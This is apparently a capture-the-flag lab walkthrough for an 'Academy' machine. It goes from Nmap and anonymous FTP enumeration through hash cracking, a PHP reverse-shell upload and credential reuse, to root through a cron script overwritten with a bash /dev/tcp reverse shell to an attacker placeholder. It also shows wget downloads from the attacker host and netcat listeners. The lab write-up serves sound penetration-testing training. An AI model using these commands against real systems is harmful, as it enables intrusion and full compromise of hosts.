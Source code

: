 # Academy

# Enumeration

## Nmap

Discover the interesting services:

- 21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
- 80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

## FTP File Retrieve

We discovered there’s 'note.txt' file in the ftp server. Retrieve it for any clue

1. $ ftp <Target_IP_Address>
2. Name (192.168.182.158:ren): anonymous
3. Password: <Blank and hit Enter>
4. ftp> get note.txt

![image.png](image.png)

NOTE: The VALUE credentials contain a hashed password (cd73502828457d15655bbd7a63fb0bc8). Use Hash-Identifier to determine the hash type, then use Hashcat to crack the hash 

hashcat -m 0  /usr/share/wordlists/rockyou.txt

![image.png](image%201.png)

## HTTP Claw

Here provides three tools to perform clawing:

1. ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<Tartget_IP_Address>/FUZZ
2. dirb http://<Tartget_IP_Address>
3. dirbuster ✅

Using Dirbuster, we discovered:

- an [phpMyAdmin](http://192.168.182.158/phpmyadmin/index.php) login panel
- an user login / admin panel in the target [web application](http://192.168.182.158/academy/).

We successfully logged in using both the student credentials found in the note.txt file from FTP and the default admin credentials.

- 10201321:student
- admin:admin

In student login session, we were able to upload non-image format file.

# Exploitation

## HTTP-php reverse shell

Since the image upload functionality does not validate file formats during the enumeration phase, we can attempt to establish a connection using a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

1. On Attack machine, turn on Netcat for port listening:
    
    $ sudo nc -nvlp 1234
    
2. Upload <payload.php> to student info

![image.png](image%202.png)

## HTTP-Escalation

Configure a web server to facilitate the transfer of [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to the target machine via the established PHP reverse shell session.

1. $ python3 -m http.server 80 # Run this command on attacker machine
2. wget http://<Attack_Machine_IP>/linpeas.sh # Run on the established PHP reverse shell session
3. $ chmod +x linpeas.sh # Ensure to modify permission, otherwise it won’t be executed.
4. ./linpeas.sh

### LinPEAS Scanning Result

1. The distribution can be used for escalation for some case

![image.png](image%203.png)

1. /home/grimmie/backup.sh

![image.png](image%204.png)

1. /var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss"

![image.png](image%205.png)

- We identified the MySQL user credentials by examining the config.php, which contained the SQL login details referenced in a previous screenshot. Upon testing on [phpMyAdmin](http://192.168.182.158/phpmyadmin/index.php), the credentials were confirmed to be valid.

![image.png](image%206.png)

1. cat /etc/passwd

![image.png](image%207.png)

## SSH

Nmap enumeration revealed that the SSH service is running on the target system. Additionally, based on a previous screenshot, we confirmed that the user 'grimmie' possesses administrative privileges.

1. Using user grimmie's credentials to log in via SSH

$ ssh grimmie@<Target_IP_Address> # Password:"My_V3ryS3cur3_P4ss"

1. After gaining access to the machine, we examined the previously identified file located at `/home/grimmie/backup.sh` for further analysis.
Which doesn’t provide much useful information.

![image.png](image%208.png)

NOTE: In the Crontab, we didn’t see the `backup.sh` is scheduled to run. 

## Pspy-Scheduled Process Discovery

Download Move the [pspy](https://github.com/DominicBreuker/pspy) (64-bit big, static version) into the directory that’s hosting for the web application. And retrieve the pspy from the reverse shell session.

1. $ python3 -m http.server 80
2. wget http://<Attack_Machine_IP>/pspy64
3. chmod + pspy64
4. ./pspy64

![image.png](image%209.png)

# Privilege Escalation

From the previous steps, we determine the backup.sh runs every minute. So we can insert the [one line bash reserve shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into the file.

1. grimmie@academy:~$ nano backup.sh
Replace everything with `bash -i >& /dev/tcp/<Attacker_IP_Address>/8080 0>&1` 
2. $ nc -nvlp 8080 # Setup listener on attack machine

Once the shell is successfully triggered, we obtain root access to the target machine.

![image.png](image%2010.png)
